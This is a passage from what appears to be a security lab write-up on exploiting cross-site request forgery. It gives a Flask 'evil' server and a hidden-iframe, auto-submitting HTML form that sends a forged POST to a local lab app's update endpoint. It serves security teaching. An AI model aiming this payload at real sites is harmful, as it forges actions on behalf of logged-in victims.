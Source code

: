 ## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to > templates/evil.html and run the command below to start our evil application.

```
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```
http://localhost:1337/
```
